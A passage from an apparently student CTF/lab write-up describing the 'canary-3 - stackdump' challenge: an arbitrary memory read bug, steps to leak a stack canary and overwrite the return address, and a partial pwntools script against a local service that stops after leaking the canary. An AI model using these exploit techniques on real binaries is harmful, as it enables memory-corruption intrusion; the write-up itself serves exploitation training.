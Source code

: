 ```python

c.interactive()
```
---
## **6. canary-3 - stackdump**
_General overview of problems faced:_   
Have to properly comment the assembly in order to fully understand how this binary works

_List of vulnerabilities:_    
1. In the _"dump memory"_ function, rather than dumping variable given in the assembly, it is dumping the address stored in the variable and since we can write to the variable in the _"input option"_ function, we can view the value of any address

_Steps to exploit:_ 
1. From the binary, find the offset from the given pointer to the address storing the canary
2. Input the address storing the canary
3. Dump the memory and extract the canary value
4. Use a cyclic pattern to find the offset to overwrite the return address
5. Append the win function address to the end of the payload with the offsets and canary

_Script/Command used:_    
```python
#!/usr/bin/python

from pwn import *
import re

host = "127.0.0.1"
port = 6003

win_addr = 0x080486cd
offset = 96

c = remote(host, port)
#c = process("../stack-dump")

#c = gdb.debug("../stack-dump")

reply = c.recvlines(2)  # starting lines
stack_ptr = re.search('0x(.{8})', reply[1]).group(0)                                          
print("Useful stack pointer: %s" % (stack_ptr))                                               

c.recvlines(4)
c.sendline("a")

c.sendline("5")

stack_ptr = int(stack_ptr, 0)
stack_ptr += 105

payload_leak = p32(stack_ptr)
payload_leak += "\n"

c.sendline(payload_leak)

c.recvlines(10)

c.sendline("b")

canary = c.recvline()
canary = canary[22:26]
print("Canary: %s (%d bytes)" %(canary, len(canary)))                                         

```